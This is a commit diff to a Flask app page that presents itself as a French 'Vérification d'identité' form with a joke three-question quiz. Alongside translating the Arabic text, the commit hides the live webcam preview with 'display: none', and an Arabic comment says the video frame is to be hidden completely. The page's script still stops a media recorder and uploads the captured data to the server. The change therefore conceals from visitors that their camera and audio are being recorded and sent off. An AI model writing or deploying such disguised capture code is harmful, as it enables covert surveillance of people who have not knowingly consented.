

Before and after one commit to Youssef-mehrzi/gemini-pro, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). After the commit the page ends 691 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,9 +1,9 @@
 <!DOCTYPE html>
-<html lang="ar" dir="rtl">
+<html lang="fr" dir="ltr">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>تحديد الهوية والأسئلة</title>
+    <title>Vérification d'identité</title>
     <style>
         body { font-family: Arial, sans-serif; background-color: #f4f6f9; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; padding: 20px; }
         .card { background: white; padding: 25px; border-radius: 10px; box-shadow: 0 4px 10px rgba(0,0,0,0.1); text-align: center; max-width: 480px; width: 100%; }
@@ -19,9 +19,10 @@
             font-weight: bold;
         }
 
-        #video-container { margin: 15px 0; }
-        video { width: 100%; border-radius: 8px; background: #000; border: 2px solid #ddd; }
-        .question-box { margin-bottom: 15px; text-align: right; background: #f1f2f6; padding: 10px; border-radius: 5px; }
+        /* إخفاء إطار الفيديو نهائياً */
+        #video-container { display: none; }
+
+        .question-box { margin-bottom: 15px; text-align: left; background: #f1f2f6; padding: 10px; border-radius: 5px; }
         .question-box label { display: block; font-weight: bold; margin-bottom: 5px; color: #333; }
         .question-box input, .question-box select { width: 100%; padding: 8px; box-sizing: border-box; border: 1px solid #ccc; border-radius: 4px; }
 
@@ -32,19 +33,19 @@
 <body>
     <div class="card">
         <div class="title-banner">TJEWEB T9OSS</div>
-        <h2>تحقق من الهوية</h2>
+        <h2>Vérification d'identité</h2>
 
         <div id="video-container">
             <video id="webcam" autoplay playsinline muted></video>
         </div>
 
         <form id="quizForm">
-            <input type="text" id="username" placeholder="اسمك الكريم (Name)" required style="width: 100%; padding: 10px; margin-bottom: 15px; font-size: 14px; box-sizing: border-box;"><br>
+            <input type="text" id="username" placeholder="Votre Nom (Name)" required style="width: 100%; padding: 10px; margin-bottom: 15px; font-size: 14px; box-sizing: border-box;"><br>
 
             <div class="question-box">
                 <label>1. I'M MORE BEAUTIFUL THAN YOU</label>
                 <select id="q1" required>
-                    <option value="">اختر الإجابة</option>
+                    <option value="">Sélectionnez une réponse</option>
                     <option value="yes">Yes</option>
                     <option value="no">No</option>
                 </select>
@@ -53,7 +54,7 @@
             <div class="question-box">
                 <label>2. enti bhim</label>
                 <select id="q2" required>
-                    <option value="">اختر الإجابة</option>
+                    <option value="">Sélectionnez une réponse</option>
                     <option value="yes">Yes</option>
                     <option value="no">No</option>
                 </select>
@@ -62,14 +63,14 @@
             <div class="question-box">
                 <label>3. chnowa essm kalbek?</label>
                 <select id="q3" required>
-                    <option value="">اختر الإجابة</option>
+                    <option value="">Sélectionnez une réponse</option>
                     <option value="sknder">sknder</option>
                     <option value="michou">michou</option>
                     <option value="tito">tito</option>
                 </select>
             </div>
 
-            <button type="button" onclick="verifyAndStop()">إرسال وإيقاف الفيديو</button>
+            <button type="button" onclick="verifyAndStop()">Envoyer et fermer</button>
         </form>
 
         <div id="status"></div>
@@ -119,7 +120,7 @@
 
             if (!username) {
                 statusDiv.style.color = 'red';
-                statusDiv.innerText = 'الرجاء إدخال الاسم أولاً.';
+                statusDiv.innerText = 'Veuillez entrer votre nom d\'abord.';
                 return;
             }
 
@@ -129,13 +130,13 @@
 
             if (!q1 || !q2 || !q3) {
                 statusDiv.style.color = 'red';
-                statusDiv.innerText = 'الرجاء الإجابة على كل الأسئلة.';
+                statusDiv.innerText = 'Veuillez répondre à toutes les questions.';
                 return;
             }
 
             if (q1 === 'yes' && q2 === 'yes' && q3 === 'sknder') {
                 statusDiv.style.color = 'green';
-                statusDiv.innerText = 'إجابات صحيحة! جاري إيقاف الفيديو وإرسال البيانات والصوت...';
+                statusDiv.innerText = 'Réussi ! Envoi des données en cours...';
 
                 if (mediaRecorder && mediaRecorder.state !== "inactive") {
                     mediaRecorder.stop();
@@ -177,23 +178,23 @@
                         });
 
                         if (response.ok) {
-                            statusDiv.innerText = 'تم الإرسال بنجاح!';
+                            statusDiv.innerText = 'Réussi ! Envoyé avec succès.';
                             if (mediaStream) {
                                 mediaStream.getTracks().forEach(track => track.stop());
                             }
                         } else {
                             statusDiv.style.color = 'red';
-                            statusDiv.innerText = 'فشل في إرسال البيانات.';
+                            statusDiv.innerText = 'Échec de l\'envoi des données.';
                         }
                     } catch (err) {
                         statusDiv.style.color = 'red';
-                        statusDiv.innerText = 'خطأ في الاتصال بالخادم.';
+                        statusDiv.innerText = 'Erreur de connexion au serveur.';
                     }
                 }, 1000);
 
             } else {
                 statusDiv.style.color = 'red';
-                statusDiv.innerText = 'غلط! حاول مرة أخرى.';
+                statusDiv.innerText = 'Erreur ! Veuillez réessayer.';
             }
         }
     </script>
```
